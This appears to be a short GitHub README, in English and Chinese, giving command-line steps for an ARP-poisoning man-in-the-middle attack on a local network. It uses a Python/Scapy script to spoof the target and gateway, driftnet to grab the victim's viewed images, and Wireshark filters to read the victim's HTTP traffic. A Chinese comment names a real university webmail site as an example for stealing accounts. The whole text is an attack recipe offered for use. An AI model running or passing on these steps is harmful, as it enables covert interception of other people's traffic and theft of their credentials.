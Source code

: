 _______________________PreRequests: ____________________________________
|  $ Python 2.7 with Scapy 						                        |
|  $ Driftnet								                            |
|  $ Wireshark								                            |
|  $ Linux Environment with Root Access				                    |
|  $ Your Computer and Target are in the same LAN			            |
|  $ HINT: change wlp2s0,target_ip into proper value			        |
|_______________________________________________________________________|

 _________________________ARP Poison____________________________________
|  $ sudo sysctl net.ipv4.ip_forward=1					                |
|  $ 开启IP转发功能							                            |
|  $ sudo python arpPoison.py -i wlp2s0 -t target_ip -m rep 192.168.1.1	|
|  $ 欺骗TargetIP，使其认为网关是本机IP					                    |
|  $ sudo python arpPoison.py -i wlp2s0 -t 192.168.1.1 target_ip	    |
|  $ 欺骗网关，使其认为targetIP是本机IP					                    |
|_______________________Poison Finished_________________________________|

_______________________View Picture(Use Driftnet)_______________________
| $ driftnet -i wlp2s0							                        |
| $ 提取TargetIP访问的图片信息,在本机查看(不要多想...			                |
|_______________________________________________________________________|

 ——————————————————————View HTTP(Use Wireshark)_________________________
| $ sudo wireshark							                            |
| $ filter:http and ip.src= target_ip					                |
| $ 设置Wireshark中的过滤器，查看targetIP的所有HTTP链接			          |
| $ 可以通过查看mail.pku.edu.cn来实现盗号...作为小例子			             |
|_______________________________________________________________________|

Bingo...

